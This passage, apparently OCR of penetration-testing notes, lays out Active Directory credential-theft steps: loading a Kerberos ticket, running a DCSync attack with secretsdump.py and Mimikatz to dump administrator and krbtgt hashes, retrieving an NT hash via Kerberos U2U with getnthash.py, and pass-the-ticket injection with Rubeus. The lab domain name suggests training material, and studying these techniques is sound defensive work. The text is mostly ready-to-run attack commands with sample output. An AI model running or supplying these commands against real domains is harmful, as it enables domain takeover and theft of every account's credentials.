 3. **Set the TGT for Authentication:**
   - Export the `.ccache` file to the Kerberos environment:
     ```bash
     export KRB5CCNAME=dc01.ccache
     ```

4. **Perform a DCSync Attack:**
   - Use secretsdump.py to retrieve sensitive credentials:
     ```bash
     secretsdump.py -just-dc-user <domain>/administrator -k -no-pass <DC_machine_account>@<DC_FQDN>
     ```


##### **Advanced Usage: Mimikatz for DCSync**

Once authentication is coerced and a valid Kerberos ticket is available, Mimikatz can be used to perform a **DCSync attack**.

1. **Start Mimikatz:**
   - Run Mimikatz on a privileged Windows machine:
     ```bash
     mimikatz.exe
     ```

2. **Perform DCSync:**
   - Dump the **KRBTGT** account hash or other sensitive credentials:
     ```bash
     lsadump::dcsync /user:<domain>\<target_user>
     ```

   Example:
   ```bash
   lsadump::dcsync /user:inlanefreight\krbtgt
   ```

3. **Expected Output:**
   - NTLM hash, LM hash, and Kerberos keys for the target user are retrieved:
     ```
     Credentials:
       Hash NTLM: 16e26ba33e455a8c338142af8d89ffbc
     ```



##### **Alternate Routes for Exploitation**

1. **Retrieve NT Hash Using Kerberos U2U:**
   - Use `getnthash.py` with the AS-REP encryption key:
     ```bash
     python3 /opt/PKINITtools/getnthash.py -key <AS-REP_Encryption_Key> <domain>/<DC_machine_account>$
     ```

2. **Perform Pass-the-Ticket with Rubeus:**
   - Request a TGT and inject it into memory:
     ```powershell
     Rubeus.exe asktgt /user:<DC_machine_account>$ /certificate:<Base64_Certificate> /ptt
     ```
